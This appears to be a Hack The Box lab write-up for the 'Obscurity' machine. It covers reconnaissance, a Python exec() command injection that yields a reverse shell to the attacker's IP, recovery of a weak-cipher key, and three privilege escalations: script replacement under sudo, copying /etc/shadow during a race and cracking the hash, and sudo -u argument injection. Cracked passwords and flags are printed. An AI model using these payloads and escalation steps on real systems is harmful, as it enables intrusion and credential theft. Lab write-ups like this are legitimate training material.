





## NMAP
nmap -sC -sV 10.10.10.168
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 19:20 EDT                                                                                                                                                    
Nmap scan report for 10.10.10.168                                                                                                                                                                                  
Host is up (0.72s latency).                                                                                                                                                                                        
Not shown: 996 filtered ports                                                                                                                                                                                      
PORT     STATE  SERVICE    VERSION                                                                                                                                                                                 
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                                            
| ssh-hostkey:                                                                                                                                                                                                     
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)                                                                                                                                                     
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)                                                                                                                                                    
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)                                                                                                                                                  
80/tcp   closed http                                                                                                                                                                                               
8080/tcp open   http-proxy BadHTTPServer                                                                                                                                                                           
| fingerprint-strings:                                                                                                                                                                                             
|   GetRequest:                                                                                                                                                                                                    
|     HTTP/1.1 200 OK                                                                                                                                                                                              
|     Date: Tue, 17 Mar 2020 23:25:01                                                                                                                                                                              
|     Server: BadHTTPServer                                                                                                                                                                                        
|     Last-Modified: Tue, 17 Mar 2020 23:25:01                                                                                                                                                                     
|     Content-Length: 4171                                                                                                                                                                                         
|     Content-Type: text/html                                                                                                                                                                                      
|     Connection: Closed                                                                                                                                                                                           
|     <!DOCTYPE html>                                                                                                                                                                                              
|     <html lang="en">                                                                                                                                                                                             
|     <head>                                                                                                                                                                                                       
|     <meta charset="utf-8">                                                                                                                                                                                       
|     <title>0bscura</title>                                                                                                                                                                                       
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">                                                                                                                                                        
|     <meta name="viewport" content="width=device-width, initial-scale=1">                                                                                                                                         
|     <meta name="keywords" content="">                                                                                                                                                                            
|     <meta name="description" content="">                                                                                                                                                                         
|     <!--                                                                                                                                                                                                         
|     Easy Profile Template                                                                                                                                                                                        
|     http://www.templatemo.com/tm-467-easy-profile                                                                                                                                                                
|     <!-- stylesheet css -->                                                                                                                                                                                      
|     <link rel="stylesheet" href="css/bootstrap.min.css">                                                                                                                                                         
|     <link rel="stylesheet" href="css/font-awesome.min.css">                                                                                                                                                      
|     <link rel="stylesheet" href="css/templatemo-blue.css">                                                                                                                                                       
|     </head>                                                                                                                                                                                                      
|     <body data-spy="scroll" data-target=".navbar-collapse">                                                                                                                                                      
|     <!-- preloader section -->                                                                                                                                                                                   
|     <!--                                                                                                                                                                                                         
|     <div class="preloader">                                                                                                                                                                                      
|     <div class="sk-spinner sk-spinner-wordpress">                                                                                                                                                                
|   HTTPOptions:                                                                                                                                                                                                   
|     HTTP/1.1 200 OK                                                                                                                                                                                              
|     Date: Tue, 17 Mar 2020 23:25:02                                                                                                                                                                              
|     Server: BadHTTPServer                                                                                                                                                                                        
|     Last-Modified: Tue, 17 Mar 2020 23:25:02                                                                                                                                                                     
|     Content-Length: 4171                                                                                                                                                                                         
|     Content-Type: text/html                                                                                                                                                                                      
|     Connection: Closed                                                                                                                                                                                           
|     <!DOCTYPE html>
|     <html lang="en">                                                                                                                                                                                             
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=3/17%Time=5E715BC1%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Tue,\x2017\x20Mar\x2020
SF:20\x2023:25:01\nServer:\x20BadHTTPServer\nLast-Modified:\x20Tue,\x2017\
SF:x20Mar\x202020\x2023:25:01\nContent-Length:\x204171\nContent-Type:\x20t
SF:ext/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\
SF:n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20na
SF:me=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templ
SF:ate\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20st
SF:ylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boo
SF:tstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-a
SF:wesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templa
SF:temo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target
SF:=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<
SF:div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner
SF:-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20
SF:Tue,\x2017\x20Mar\x202020\x2023:25:02\nServer:\x20BadHTTPServer\nLast-M
SF:odified:\x20Tue,\x2017\x20Mar\x202020\x2023:25:02\nContent-Length:\x204
SF:171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t
SF:<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20co
SF:ntent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conte
SF:nt=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nE
SF:asy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pro
SF:file\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"
SF:scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.78 seconds
```

i found this hint on the webpage 10.10.10.168:8080
```
Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory
```

## FFUF (Fuzz Faster U Fool)
so i used ffuf to fuzz the directory in which the python file is stored
```
/opt/ffuf_1.0.1_linux_amd64/ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
```



## Command Injection
reading through the python file found, I understood that I have to exploit the exec function on line 139 to get a reverse shell
```py
info = "output = 'Document: {}'"
exec(info.format(path))
```

so basically rather than sending the request to / we have to send it to our payload  
so for this payload --> os.system(nc -e /bin/bash <IP-address> <Port>)  

```py
exec("print('abc'); print('def');")
exec("output = 'Document: '; os.system('nc 127.0.0.1 8888');")
```

the request will look like this (we need to remove the spaces by url encoding them)
```
GET ';os.system("nc%20-e%20/bin/bash%2010.10.14.124%209999");# HTTP/1.1
Host: 10.10.10.168:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 03 Apr 2020 05:30:55
```

so for some reason this works locally but doesn't work on the real machine  
although nc without -e /bin/bash option works perfectly fine on the real machine  
so finally i used socket and subprocess (as they are already imported) to get a reverse shell using this payload  
```
';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.124",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);#
```

so we get the shell as www-data using the above payload and we have read permissions on some of the files in robert's home directory
```
root@kali:~/Desktop/HTB# nc -lvp 9999                                                                                                                                                                              
listening on [any] 9999 ...                                                                                                                                                                                        
10.10.10.168: inverse host lookup failed: Unknown host                                                                                                                                                             
connect to [10.10.14.124] from (UNKNOWN) [10.10.10.168] 53568
www-data@obscure:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash

www-data@obscure:/$ ls -al /home/robert
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24  2019 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3  2019 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25  2019 user.txt

www-data@obscure:/$ cd /home/robert

www-data@obscure:/home/robert$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

## Easy Crypto
i copied check.txt, out.txt, passwordreminder.txt and SuperSecureCrypt.py (i was not able to create python http server on the machine to copy files)  
so rather than coping the encrypted files directly i used "xxd -p" to convert into hex then "xxd -r -p" to convert back  
its clear just from reading check.txt that we need to find the key and then decrypt passwordreminder.txt using that key  

after reading the encrypt and decrypt function in SuperSecureCrypt.py we can very easily write script to get the key using check.txt and out.txt  
so i wrote getKey.py which contains the code to obtain the key  
```python3
with open('robert_Encryption/check.txt', 'r', encoding='UTF-8') as f:
        check = f.read()

with open('robert_Encryption/out.txt', 'r', encoding='UTF-8') as f:
        out = f.read()

key = []
for i in range(len(check)):
        if ord(check[i]) > ord(out[i]):
                key += chr(ord(out[i]) - ord(check[i]) + 255)
        else:
                key += chr(ord(out[i]) - ord(check[i]))

print(''.join(key))
```

and the key comes out to be "alexandrovich"
```
root@kali:~/Desktop/HTB/activeMachines/Linux/Obscurity# python3 getKey.py 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal
```

after reading writeups I found out that we don't need to write a script to get the key we can just use SuperSecureCrypt.py  
we can use the decrypt function in SuperSecureCrypt.py with out.txt as text and check.txt as key  
this will output the key just like in the script I wrote (getKey.py)
```
root@kali:~/Desktop/HTB/activeMachines/Linux/Obscurity/robert_Encryption# python3 SuperSecureCrypt.py -i out.txt -o key.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to key.txt...

root@kali:~/Desktop/HTB/activeMachines/Linux/Obscurity/robert_Encryption# cat key.txt 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

now we can use this key and passwordreminder.txt to decrypt it using SuperSecureCrypt.py's decrypt function
```
root@kali:~/Desktop/HTB/activeMachines/Linux/Obscurity/robert_Encryption# python3 SuperSecureCrypt.py -i passwordreminder.txt -k alexandrovich -o robertPassword.txt -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to robertPassword.txt...

root@kali:~/Desktop/HTB/activeMachines/Linux/Obscurity/robert_Encryption# cat robertPassword.txt 
SecThruObsFTW
```

now lets try to SSH as robert using this password  
```
root@kali:~/Desktop/HTB# ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Apr  3 07:00:15 UTC 2020

  System load:  0.0               Processes:             107
  Usage of /:   45.9% of 9.78GB   Users logged in:       0
  Memory usage: 17%               IP address for ens160: 10.10.10.168
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

40 packages can be updated.
0 updates are security updates.


Last login: Mon Dec  2 10:23:36 2019 from 10.10.14.4
robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```

# Privilege Escalation

## Method 1
```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

we can run BetterSSH.py as root but we cannot modify it because it is owned by root  
but we can rename BetterSSH to something else and then make another BetterSSH directory with our BetterSSH.py file in it
```
robert@obscure:~$ mv BetterSSH/ blah

robert@obscure:~$ ls
blah  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py  user.txt

robert@obscure:~$ mkdir BetterSSH

robert@obscure:~$ cd BetterSSH/

robert@obscure:~/BetterSSH$ echo "import os; os.system('/bin/bash');" > BetterSSH.py

robert@obscure:~/BetterSSH$ cat BetterSSH.py 
import os; os.system('/bin/bash');

robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 

root@obscure:~/BetterSSH# id
uid=0(root) gid=0(root) groups=0(root)

root@obscure:~/BetterSSH# cd /root

root@obscure:/root# cat root.txt
512fd4429f33a113a44d5acde23609e3
```

## Method 2

If we go through the code in BetterSSH.py, we know that it authenticate users by copying /etc/shadow in a random file in /tmp/SSH directory   
but it deletes the file before exiting the script so we can't see the file  
although if we write a script that copies the content of /tmp/SSH to some other directory infinitely then we will be able to copy the file before it is deleted   
I used this one liner bash script for this
```
for i in {1..100000}; do cp /tmp/SSH/* /tmp/flag; done 2>/dev/null
```

we will first run the above script and then in a new terminal run BetterSSH.py with sudo   
it doesn't matter if the credentials are correct or not /etc/shadow will be copied in /tmp/SSH directory  
before running BetterSSH.py we need to make sure /tmp/SSH directory exists otherwise it gives error  



now that we have the hashed password for root we can use john to crack it  
```
root@kali:~/Desktop/HTB/activeMachines/Linux/5_Obscurity_OWNED# cat root.hash 
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1

root@kali:~/Desktop/HTB/activeMachines/Linux/5_Obscurity_OWNED# john root.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
mercedes         (?)
1g 0:00:00:00 DONE 2/3 (2020-04-03 07:25) 1.666g/s 1706p/s 1706c/s 1706C/s crystal..random
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

so we got the root password --> "mercedes"  
now we can change to superuser using su
```
robert@obscure:~/BetterSSH$ su -
Password: 

root@obscure:~# cat root.txt
512fd4429f33a113a44d5acde23609e3
```

## Method 3

```python3
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```
the above code snippet from BetterSSH.py shows that if we input the correct credentials and get authenticated we can execute commands as that user  
we know the credentials for robert so we can get authenticated as robert  
but there is a flaw if the command is "sudo -u robert -u root" --> the -u option gets overwritten as root and we can run commands as root  
if we get authenticated as robert the command will be -->  "sudo -u robert" + user_input  
so we just need to give "-u root <Command>" as input to run the Command as root  






